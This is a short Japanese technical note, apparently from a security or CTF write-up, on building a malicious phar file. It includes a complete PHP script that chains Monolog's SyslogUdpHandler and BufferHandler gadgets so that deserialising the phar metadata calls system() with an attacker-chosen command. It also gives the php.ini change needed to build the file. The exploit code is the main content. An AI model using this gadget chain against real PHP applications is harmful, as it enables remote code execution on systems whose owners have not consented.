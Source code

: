 pharには有名はMonologのPOPガジェットが使えるらしい。  
これを実行するいは`/etc/php/7.2/cli/php.ini`で`;phar.readonly = On`を`phar.readonly = Off`にする必要がある。`/etc/php/7.2/apache2/php.ini`の方じゃないので注意。  
これを`$php make-explot-phar.php`で実行する。  
```php
<?php

namespace Monolog\Handler
{
    class SyslogUdpHandler
    {
        protected $socket;
        function __construct($x)
        {
            $this->socket = $x;
        }
    }
    class BufferHandler
    {
        protected $handler;
        protected $bufferSize = -1;
        protected $buffer;
        # ($record['level'] < $this->level) == false
        protected $level = null;
        protected $initialized = true;
        # ($this->bufferLimit > 0 && $this->bufferSize === $this->bufferLimit) == false
        protected $bufferLimit = -1;
        protected $processors;
        function __construct($methods, $command)
        {
            $this->processors = $methods;
            $this->buffer = [$command];
            $this->handler = clone $this;
        }
    }
}

namespace{
    $cmd = "ls -alt";

    $obj = new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', 'system'],
            [$cmd, 'level' => null]
        )
    );

    $phar = new Phar('exploit.phar');
    $phar->startBuffering();
    $phar->addFromString('test', 'test');
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar->setMetadata($obj);
    $phar->stopBuffering();

}
```
作成された`exploit.phar`は以下の通り。  
```txt
$ cat exploit.phar
<?php __HALT_COMPILER(); ?>
```